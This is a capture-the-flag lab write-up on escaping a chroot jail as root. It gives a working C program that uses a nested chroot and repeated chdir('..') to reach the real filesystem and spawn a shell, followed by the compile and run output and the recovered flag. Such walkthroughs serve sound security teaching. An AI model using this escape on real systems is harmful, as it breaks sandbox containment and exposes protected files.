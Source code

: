 Sometimes a user might require root privileges to perform certain operations, however, providing access to the root user of a machine can have severe consequences. Chroot provides the functionality to create a modified environment. In the modified environment, the user can have their own file system but they cannot access files outside the environment directory tree. In this challenge, you have to breakout of the chroot environment and read files of the actual filesystem.

In a chroot environment, if a program is running with root privileges, the program might be ableto perform second chroot and can breakout of the chrooted environment. This is a limitation ofchroot and hence it is recommended that the chrooted program should relinquish root privilegesafter chrooting

List binaries - see gcc in /usr/bin

```
root@attackdefense:~# ls -l /bin
total 1440
-rwxr-xr-x 1 root 0 1113504 Oct 27  2019 bash
-rwxr-xr-x 1 root 0   35064 Oct 27  2019 cat
-rwxr-xr-x 1 root 0  133792 Oct 27  2019 ls
-rwxr-xr-x 1 root 0   63704 Oct 27  2019 rm
-rwxr-xr-x 1 root 0  121432 Oct 27  2019 sh
root@attackdefense:~# ls -l /usr/bin
total 6292
-rwxr-xr-x 1 root 0  917488 Oct 27  2019 as
-rwxr-xr-x 1 root 0   10240 Oct 27  2019 clear
-rwxr-xr-x 1 root 0 1010624 Oct 27  2019 gcc
-rwxr-xr-x 1 root 0   43224 Oct 27  2019 id
-rwxr-xr-x 1 root 0 1779400 Oct 27  2019 ld
-rwxr-xr-x 1 root 0 2671240 Oct 27  2019 vim
```

Create a C program to break out of chroot environment

This program will:

- Create a chroot environment
- Change directory to a path relatively outside of the chroot environemtn (to reach the root rile system outside of chroot environment)
- Enter chroot to access the root file system

```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
	mkdir("chroot-dir", 0755);
	chroot("chroot-dir");
	for(int i = 0; i < 1000; i++) {
		chdir("..");
	}
	chroot(".");
	system("/bin/bash");
}
```

Compile the C program

```
root@attackdefense:~# gcc -o break-chroot break-chroot.c
root@attackdefense:~# ls
break-chroot  break-chroot.c
```

Run the binary and see the binaries available in the /bin directory

```
root@attackdefense:~# ./break-chroot
root@attackdefense:/# ls /bin/
'Chroot Jail'   bzmore          domainname   login           pwd          tar            zdiff
 bash           cat             echo         ls              rbash        tempfile       zegrep
 bunzip2        chgrp           egrep        lsblk           readlink     touch          zfgrep
 bzcat          chmod           false        mkdir           rm           true           zforce
 bzcmp          chown           fgrep        mknod           rmdir        umount         zgrep
 bzdiff         cp              findmnt      mktemp          run-parts    uname          zless
 bzegrep        dash            grep         more            sed          uncompress     zmore
 bzexe          date            gunzip       mount           sh           vdir           znew
 bzfgrep        dd              gzexe        mountpoint      sh.distrib   wdctl
 bzgrep         df              gzip         mv              sleep        which
 bzip2          dir             hostname     nisdomainname   stty         ypdomainname
 bzip2recover   dmesg           kill         pidof           su           zcat
 bzless         dnsdomainname   ln           ps              sync         zcmp
```

Search for a flag

```
root@attackdefense:/# find / -name *flag* 2>/dev/null
/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
...
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/waitflags.ph
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/ss_flags.ph
/root/flag
root@attackdefense:/# cat /root/flag
00bcc88308db5ca58b1f27ddec6cc9c7
```
